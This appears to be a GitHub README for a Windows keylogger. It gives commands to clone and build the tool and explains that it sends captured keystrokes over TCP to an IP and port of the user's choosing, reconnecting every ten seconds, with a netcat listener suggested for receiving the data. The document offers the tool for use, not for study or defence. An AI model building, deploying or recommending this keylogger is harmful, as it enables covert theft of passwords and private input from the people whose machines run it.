

# Simple KeyLogger for Windows

## Build
```bash
git clone https://github.com/x0152/KeyLogger
cd KeyLogger
mkdir build
cd build
cmake .. -G "MinGW Makefiles"
make
```

## Usage
```bash
KeyLogger <ip> <port>
```
Program will establish tcp connection to ip on specified port. You can use netcat for testing. (example: nc -l 8030)
If the connection is lost then programm will try reconnect each 10 seconds.

## Exapmple output

